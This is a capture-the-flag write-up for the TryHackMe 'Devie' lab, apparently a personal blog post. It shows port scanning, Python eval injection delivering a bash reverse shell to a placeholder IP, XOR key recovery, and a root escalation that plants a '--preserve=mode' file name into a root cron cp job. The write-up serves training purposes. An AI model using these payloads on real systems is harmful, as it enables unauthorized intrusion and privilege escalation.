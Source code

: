 ```yaml
---
title: "Intranet TryHackMe"
collection: publications
permalink: /publication/devie
excerpt: 'This is a subscriber only room from TryHackMe'
date: 2023-06-228
venue: '06-28'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/devie-header.png)

**LINK :** [Devie](https://tryhackme.com/room/devie)

# Enumeration : 

* Let's start by looking for open ports.

```console
└─# nmap -sC -sV -T4 10.10.152.117
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-27 09:51 EDT
Nmap scan report for 10.10.152.117
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c9727bf5b62ed5995614de43093a6492 (RSA)
|   256 0b75585ab9f75ba9ffefad71c1090a33 (ECDSA)
|_  256 7df9c9f867f9954e016823a47b8c9830 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.8.10
|     Date: Tue, 27 Jun 2023 13:51:28 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 4486
|     Connection: close
```
* We have 2 open ports, ``ssh`` running on port ``22`` and a web application running on port ``5000``
* Visiting ``http://X.X.X.X:5000``, we see a Math Formulas page.

![devie1](/images/devie1.png)

* You can see below a link to download the code source.

![devie2](/images/devie2.png)

* We have 4 python scripts.
* The main function is in ``app.py``, while i was reading the script, i noticed that the ``bisect`` function uses ``eval`` which is vulnerable to command injection.

![devie3](/images/devie3.png)

> [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)

* All we need to do now is to inject a payload into the ``xa`` parameter of the ``bisect`` function, for that i will use ``burp suite``.

![devie4](/images/devie4.png)

# Flag 1 :

* As you can see we have to add ``#`` at the end of the injected payload to comment out the rest of the expression.

```console
__import__('os').system('/bin/bash -c \'bash+-i+>%26+/dev/tcp/<your-ip-address>/4444+0>%261\'')
```

> Dont forget to add your ip address and url-encode the payload.

![devie5](/images/devie5.png)

* Before send the request, you should open a netcat listener.

```console
nc -lvnp 4444
```

![devie6](/images/devie6.png)

# Flag 2 :

* I found a note in Bruce's home directory 

![devie7](/images/devie7.png)

* So as you can see Gordon shares his encoded XOR password.

* Let's see our sudo privileges

![devie8](/images/devie8.png)

* So as you can see we can run ``encrypt.py`` as ``gordon```

![devie9](/images/devie9.png)

* So the idea here is to enter ``hammertime4444`` as password and grab the output which XORed,base64-encoded password, then pass it to [Cyberchef](https://gchq.github.io/CyberChef/), As a recipe we will use ``from base64`` and ``XOR`` with the password entered using ``encrypt.py`` as the key.

![devie10](/images/devie10.png)

* [4] is the key

* Now we have the key used in the XOR operation.

> The special thing about ``XOR`` is because we know the initial and final value of the password, we can extract the key used in the XOR operation.

* Now it's time to decode the encoded string from Gordan's note using the key we found.

![devie11](/images/devie11.png)

* Switch user to ``Gordon`` and get your 2nd flag.

![devie12](/images/devie12.png)

> The password works also for ``SSH``.

# Flag 3 :

* We found a ``reports`` and ``backups`` folders which seems to be copies of each others with the copied files stored in the ``backups`` folder.

![devie13](/images/devie13.png)

* I spent a lot of times trying to figure out what's the next step until i noticed that the time of backups directory files changes every minutes and the ownership of these files is ``root`` so a backup job is most likely running as ``root``.

* It's time to use ``pspy`` to snoop on processes without need for root permissions.

> [Pspy](https://github.com/DominicBreuker/pspy)

![devie14](/images/devie14.png)

* As you can see there is a ``backup`` script that get executed every minute, let's see what this script is used for.

![devie15](/images/devie15.png)

* If we put any binary into ``reports`` folder, it will be copied to ``backups`` folder with ``root`` ownership.
* My idea is to copy ``/bin/bash`` to ``reports`` folder and assign it the **setuid bit**, but the problem is that privilege will not be copied by ``cp`` command by default, fortunately we can create a file named ``--preserve=mode`` so the permission is maintained when it gets copied to the ``backups`` folder.

> [Preservation mode](https://www.makeuseof.com/preserve-file-permissions-in-linux-while-copying-them/)

![devie16](/images/devie16.png)

![devie17](/images/devie17.png)

* We wait one minute for the cron to execute, change directory to ``backups`` folder and you should see the ``bash`` binary with **setuid bit**.

![devie18](/images/devie8.png)

* Execute this command and get the root flag.

```console
./bash -p
```

![devie19](/images/devie19.png)